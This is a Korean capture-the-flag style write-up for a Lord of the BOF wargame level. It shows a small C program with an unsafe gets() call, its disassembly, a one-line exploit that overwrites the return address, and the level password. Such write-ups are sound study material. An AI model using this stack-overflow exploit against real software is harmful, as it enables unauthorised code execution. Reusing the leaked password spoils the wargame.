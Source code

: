 ```yaml
---
title: "BOF - Lv.3 cobolt"
excerpt: "Lv.3 cobolt"
toc: true
toc_sticky: true
categories:
  - BOF
tags:
  - buffer overflow
---
```


## 1. Source Code
```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - goblin
        - small buffer + stdin
*/

int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
```
```
(gdb)
0x80483f8 <main>:       push   %ebp
0x80483f9 <main+1>:     mov    %ebp,%esp
0x80483fb <main+3>:     sub    %esp,16
0x80483fe <main+6>:     lea    %eax,[%ebp-16]
0x8048401 <main+9>:     push   %eax
0x8048402 <main+10>:    call   0x804830c <gets>
0x8048407 <main+15>:    add    %esp,4
0x804840a <main+18>:    lea    %eax,[%ebp-16]
0x804840d <main+21>:    push   %eax
0x804840e <main+22>:    push   0x8048470
0x8048413 <main+27>:    call   0x804833c <printf>
0x8048418 <main+32>:    add    %esp,8
0x804841b <main+35>:    leave
0x804841c <main+36>:    ret
```

## 2. Vulnerability
코드를 보면 gets 함수를 사용함. strcpy()와 같은 이유로 버퍼 오버플로 취약점 발생함. 그리고 버퍼 크기고 작으므로 마찬가지로 환경변수를 이용함.

## 3. Solution
gets 함수는 입력값을 직접 받는 함수기 때문에 strcpy와는 달리 입력값을 주고 파이프```|```로 그 값을 cobolt에 줘야함.  
```
(python -c 'print "A"*20+"\x0e\xfc\xff\xbf"'; cat) | ./goblin
``` 
my-pass : hackers proof